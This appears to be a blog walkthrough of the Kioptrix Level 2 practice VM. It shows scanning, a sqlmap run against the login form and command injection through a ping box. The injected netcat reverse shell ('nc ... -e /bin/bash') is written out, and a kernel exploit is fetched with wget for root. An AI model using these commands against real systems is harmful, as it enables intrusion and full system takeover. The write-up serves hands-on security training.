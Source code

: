```yaml
---
layout:		post
title:  	"Kioptrix Level 2"
date: 		2018-02-26 14:00:00 +0800
summary:	Today we are going to solve Kioptrix Level 2. First we need to...
categories:	kioptrix
---
```

Today we are going to solve Kioptrix Level 2. First we need to download the VM from the kioptrix website, add it to VMware and power it up!

We are met with this image:

![Kioptrix Login](/assets/kioptrix-start.png){: .center-image}

Let's get started. From my Kali machine I'm going to run an nmap scan, this will scan the entire network and we should be able to find the IP address of the Kioptrix machine. 

![nmap scan](/assets/nmap scan.PNG){:class="img-responsive"}

The nmap scan has brought back a number of open ports. The most interesting here would be the port 3306, the MySQL port. Let's look a bit further into that.

To do this we're going to use Metasploit. First we need to find out what version of MySQL is on the Kioptrix machine. We will do this with the following

{% highlight ruby %}
use auxiliary/scanner/mysql/mysql_version
#We then need to set a couple of parameters
set rhosts 192.168.1.101 #	This is the Kioptrix Machine IP 
			 #	that we found in the nmap scan
set rport 3306 #This is the open mysql port
run
{% endhighlight %}
<br>
<br>
![mysql](/assets/mysql version result.PNG){:class="img-responsive"}
<br>
<br>
Well, that didn't really get us anywhere. At least we know it is mySQL. Let's launch a browser, go to the IP address and see what we are greeted with. 
<br>
<br>
![landing](/assets/web landing page.PNG){:class="img-responsive"}
<br>
<br>
A login page. Let's use burpsuite, intercept the login and see what we can find out. 
<br>
<br>
![burpsuite](/assets/burpsuite.PNG){:class="img-responsive"}
<br>
<br>
Burpsuite has intercepted the login! Let's use this with sqlmap to try and get a workaround. 
<br>
In terminal we write:
<br>
{% highlight ruby %}
sqlmap -u "http://192.168.1.101/index.php" --data "uname=admin&psw=password&btnLogin=Login" --level=5 --risk=3
{% endhighlight %}
<br>
<br>
-u is for URL<br>
--data this is where we put the data from our burpsuite intercept<br>
--level is level of tests to perform from 1-5, may as well max it out<br>
--risk is risk of tests 1-3, same again, max it out. As this isn't a real-world test we don't have to worry too much about the risk or level of attacks. <br>
<br>
![sqlmap complete](/assets/sqlmap-complete.PNG){:class="img-responsive"}
<br><br>
sqlmap has completed and found multiple injection points. Let's just use the username POST injection, we can do this in burpsuite by replacing the original code with the injection code. 
<br><br>
Now we are at this page:
<br>
![web after login](/assets/webpage after login.PNG){:class="img-responsive"}
<br><br>
What we need to now do is see if this textbox will run extra commands for us. Let's ping the Kioptrix machine and add {% highlight ruby %}; ls -l{% endhighlight %} and see if it brings back a list of files and owner of those files.

Sure enough, it does! Let's use another handy tool bundled in Kali, netcat

First we need to work out the location to put netcat on the Kioptrix machine. For this we use "; find / -name nc 2>/dev/null" into the webpage. This brings back "/usr/local/bin/nc". 

In Terminal, we get netcat listening with {% highlight ruby %}nc -lvp 1111{% endhighlight %}<br><br>I used port 1111, you can use whatever port you wish. 
<br>
Then back in the webapp textbox we need to input<br>{% highlight ruby %}; /usr/local/bin/nc 192.168.1.5 -e '/bin/bash' 1111{% endhighlight %}
<br><br><br>
Now we've got a netcat connection going! Let's get some more information about the kernel. A quick {% highlight ruby %}uname -a{% endhighlight %} and we now know it's Linux Kernel 2.6.9-55 - Let's google an exploit
<br>
![uname](/assets/kernel.PNG){:class="img-responsive"}
<br><br>
http://www.exploit-db.com/exploits/9542/
<br><br>
This exploit seems like it's gonna work for us! It's been tested on a similar machine to this one. 

Let's save that to "/var/www/html", start Apache on our Kali machine and download the exploit through the session we created with netcat.

Okay, to download it let's first cd to /tmp. Now we can wget from our apache server, compile and execute!

![root](/assets/root.PNG){:class="img-responsive"}

Done! We are now root. I'll just change the password and login via the VM.

![have root](/assets/haveroot.PNG){:class="img-responsive"}


Thanks guys!
